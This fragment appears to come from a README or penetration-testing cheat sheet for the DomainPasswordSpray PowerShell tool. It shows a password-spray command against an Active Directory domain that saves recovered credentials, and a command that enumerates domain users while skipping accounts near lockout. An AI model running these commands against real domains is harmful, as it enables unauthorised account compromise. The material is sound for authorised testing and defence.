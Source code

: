 >It is a great tool for password spray attack against Domain environment

``` Powershell
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

### Get-DomainUserList Module

``` Powershell
Get-DomainUserList -Domain domainname -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```